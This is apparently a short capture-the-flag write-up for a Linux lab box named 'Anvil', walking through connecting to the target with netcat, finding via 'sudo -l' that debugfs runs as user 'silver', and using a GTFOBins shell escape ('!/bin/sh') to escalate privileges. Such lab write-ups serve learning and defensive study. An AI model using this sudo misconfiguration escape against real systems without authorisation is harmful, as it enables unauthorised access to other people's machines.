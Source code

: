 # Box: Anvil
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/540b796a-a533-4954-b271-825e14715886)

Lets connect to the machine

command:```nc -t 10.0.40.10 1337```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/008fc3e5-46c3-407c-a88a-fab135dd2dd6)

cool we are connected to the target.

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/469b4ce8-49a3-4b94-a37a-ad2f885d9ee3)

We can see that user ```silver``` can run the binary ```debugfs``` with sudo privileges. This is what we call ```Misconfigured SUDO Privileges```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/debugfs/), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4684de10-2019-44b0-bf11-e2b06239fde6)

So, to escalate our privileges

command:```sudo -u silver /sbin/debugfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/326117dd-f7bb-4267-ba24-46c0a73b547d)

Good, now run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef7d5dd7-87e3-4a51-8449-3450d840922d)

Nice, we were able to successfully escalate our privileges to user ```silver```


















